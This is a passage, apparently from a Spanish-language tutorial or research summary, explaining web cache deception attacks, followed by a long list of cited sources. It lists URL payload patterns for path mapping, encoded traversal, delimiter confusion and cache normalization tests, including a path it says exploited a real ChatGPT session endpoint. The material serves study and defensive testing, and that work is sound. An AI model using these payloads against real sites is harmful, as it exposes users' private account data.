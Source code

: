 #### Path Mapping Discrepancies

Explotando diferencias entre URL mapping tradicional vs RESTful:[^7]

```bash
# REST-style servers ignoran segmentos adicionales
/user/123/profile → /user/123/profile/malicious.css

# El caché interpreta como archivo estático
# El servidor origen devuelve perfil del usuario 123
```

#### Path Traversal y Normalization[^9]

Técnicas avanzadas usando dot-segments y delimitadores:

```bash
# Traversal con encoding
/anything/..%2fmy-account → caché ve static, origen normaliza
/share/%2F..%2Fapi/auth/session → explota OpenAI ChatGPT

# Delimitadores especiales  
/profile@fake.css
/profile:fake.css
/profile;fake.css
/profile#fake.css
```

#### Delimiter Confusion Attacks[^9]

Explotando caracteres que el caché ignora pero el origen procesa:

```bash
# URL encoded slashes
/api/sensitive%2ffake.css

# Fragment identifiers
/sensitive#fake.css  

# Query parameters as delimiters
/api/user?data.css

# Semicolon delimiters
/profile;fake.css
```

### 3. Cache Server Normalization Exploitation

Investigadores han identificado técnicas sofisticadas donde el **caché normaliza** pero el **origen no**:[^8]

```bash
# Test normalization discrepancy
Original: /my-account
Payload: /aaa/..%2fmy-account

Si el origen retorna 404 → no normaliza
Si el caché cachea → normaliza y tiene reglas por prefijo
```


[^1]: https://es-la.tenable.com/blog/identifying-web-cache-poisoning-and-web-cache-deception-how-tenable-web-app-scanning-can-help
[^2]: https://www.technologydecisions.com.au/content/information-technology-professionals-association/article/wcd-attacks-still-a-significant-issue-620111008
[^3]: https://seclab.nu/static/publications/sec2020wcd.pdf
[^4]: https://air.unimi.it/retrieve/7df93d97-538a-4df6-9355-7625561e0416/CLOSER_2024_36_CR%20(1).pdf
[^5]: https://www.vaadata.com/blog/web-cache-poisoning-attacks-and-security-best-practices/
[^6]: https://www.scitepress.org/Papers/2024/126920/126920.pdf
[^7]: https://portswigger.net/web-security/web-cache-deception
[^8]: https://siunam321.github.io/ctf/portswigger-labs/Web-Cache-Deception/WCD-4/
[^9]: https://gbhackers.com/new-cache-deception-attack-exploits/
[^10]: https://developers.cloudflare.com/cache/cache-security/cache-deception-armor/
[^11]: https://www.websecuritylens.org/tag/difference-between-web-cache-deception-and-web-cache-poison/
[^12]: https://www.cloudrangecyber.com/news/real-world-cybersecurity-breaches-caused-by-vulnerable-apis
[^13]: https://www.jianjunchen.com/p/web-cache-posioning.CCS24.pdf
[^14]: https://swisskyrepo.github.io/PayloadsAllTheThings/Web Cache Deception/
[^15]: https://birchwoodu.org/top-10-real-world-case-studies-on-cyber-security-incidents/
[^16]: https://curiosidadesdehackers.com/web-cache-deception/
[^17]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^18]: https://developers.cloudflare.com/cache/cache-security/avoid-web-poisoning/
[^19]: https://owasp.org/www-project-top-10-ci-cd-security-risks/
[^20]: https://portswigger.net/research/gotta-cache-em-all
[^21]: https://portswigger.net/research/top-10-web-hacking-techniques-of-2024
[^22]: https://www.secopsolution.com/blog/10-most-uncommon-vulnerabilities-in-web-applications
[^23]: https://www.clear-gate.com/blog/web-cache-poisoning-deception/
[^24]: https://www.youtube.com/watch?v=39RdU8qYNCk
[^25]: https://www.sisainfosec.com/blogs/5-most-common-application-vulnerabilities-and-how-to-mitigate-them/
[^26]: https://github.com/resources/whitepapers/actions
[^27]: https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/web-cache-deception/
[^28]: https://www.cobalt.io/blog/web-cache-deception-what-it-is-and-how-to-test-for-it
[^29]: https://journals.mmupress.com/index.php/jiwe/article/view/1062
[^30]: https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception
[^31]: https://jignect.tech/top-ci-cd-tools-every-qa-automation-engineer-should-know/
[^32]: https://infosecwriteups.com/mastering-web-cache-deception-vulnerabilities-an-advanced-bug-hunters-guide-b7b500b482e3
[^33]: https://www.youtube.com/watch?v=O6lr-LKhEwI
[^34]: https://infosecuritycompliance.com/open-ai-web-cache-deception-vulnerability/
[^35]: https://hackerone.com/reports/1391635
[^36]: https://github.com/topics/automation-tools
[^37]: https://codesealer.com/blog/web-cache-deception-attacks
[^38]: https://github.com/f-min/WCD_prober
[^39]: https://www.usenix.org/system/files/sec22-mirheidari.pdf
[^40]: https://pt-br.tenable.com/blog/identifying-web-cache-poisoning-and-web-cache-deception-how-tenable-web-app-scanning-can-help
[^41]: https://spectralops.io/blog/top-10-ci-cd-automation-tools/
[^42]: https://stackoverflow.com/questions/64373470/best-practice-for-xss-attacks-in-rest-api
[^43]: https://stackoverflow.com/questions/2965746/how-do-you-prevent-brute-force-attacks-on-restful-data-services
[^44]: https://www.scribd.com/document/845952260/A-Methodology-for-Web-Cache-Deception-Vulnerability-Discovery
[^45]: https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-cache-server-normalization
[^46]: https://www.youtube.com/watch?v=-cwRNObMpVg
[^47]: https://www.vaadata.com/blog/how-to-strengthen-the-security-of-your-apis-to-counter-the-most-common-attacks/
[^48]: https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-origin-server-normalization
[^49]: https://www.nohat.it/slides/2024/minetti.pdf
[^50]: https://hackread.com/rising-threat-of-api-attacks-how-to-secure-apis-2025/
[^51]: https://www.youtube.com/watch?v=e4655fU7yAQ
[^52]: https://danaepp.com/3-ways-to-use-common-attack-patterns-to-abuse-an-api